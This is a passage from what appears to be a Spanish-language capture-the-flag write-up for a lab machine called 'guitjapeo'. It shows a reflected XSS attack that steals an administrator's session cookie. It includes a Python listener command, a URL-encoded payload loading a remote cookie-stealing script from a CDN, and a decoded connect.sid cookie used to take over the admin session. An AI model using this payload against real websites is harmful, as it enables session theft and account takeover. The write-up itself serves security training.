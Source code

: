 - Enviamos mensaje al administrador con la URL maliciosa.
- El administrador hace clic y carga la URL en su navegador.
- La URL carga nuestro script de github.
- Nuestro script conecta con el endpoint /api/info para obtener la cookie de sesión.
- El script direcciona el navegador del Administrador a nuestra maquina atacante enviando un parámetro data con las cookies del Administrador codificada en base64.

Nos ponemos a escuchar en nuestra maquina atacante.

```
python3 -m http.server 80
```

Enviamos un mensaje al administrador con la siguiente URL...

```
https://guitjapeo.thl/?text=%3Cscript%20src%3D%22https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FLen4m%2Ftemp%40main%2Fcookies.js%22%3E%3C%2Fscript%3E
```

... y esperamos que haga clic para recibir su cookie de sesión.

![alt text](../../../assets/images/guitjapeo/image-8.png)

Descodificamos el base64 y añadimos los datos de la sesión a nuestra sesión desde el navegador.

```
┌──(kali㉿kali)-[~]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQTlhNU5rN1U4MjJqSjhzVHZaMG1kXzE3ek1kWVpSaFNLLld0bnZQeDFkV0xLTHY0bE9yNk9FUzFlMHdiNG9zVyUyRjAwOWs2QXVscVo1bw== | base64 -d
connect.sid=s%3A9a5Nk7U822jJ8sTvZ0md_17zMdYZRhSK.WtnvPx1dWLKLv4lOr6OES1e0wb4osW%2F009k6AulqZ5o 
```
Actualizamos la pagina después de modificar la cookie y ya somos el usuario Administrador.
